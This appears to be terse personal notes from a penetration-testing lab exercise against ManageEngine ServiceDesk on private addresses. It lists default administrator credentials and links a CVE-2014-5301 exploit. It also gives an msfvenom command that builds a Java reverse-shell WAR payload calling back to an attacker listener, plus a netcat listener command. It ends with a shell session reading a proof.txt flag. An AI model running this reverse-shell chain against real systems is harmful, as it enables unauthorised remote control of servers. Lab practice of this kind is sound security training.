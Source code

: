 [http://192.168.207.43:8080](#http://192.168.207.43:8080)

-  administrator:administrator

[https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py](#https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

-  msfvenom \-p java/shell\_reverse\_tcp LHOST=192\.168\.45\.197 LPORT=4444 \-f war \> shell\.war
-  nc \-nlvp 4444 

C:\\ManageEngine\\ServiceDesk\\bin\>cd C:\\Users\\Administrator\\Desktop\>
C:\\Users\\Administrator\\Desktop\>type proof\.txt
type proof\.txt
cd53848840fec65f5418f24f162b36a1
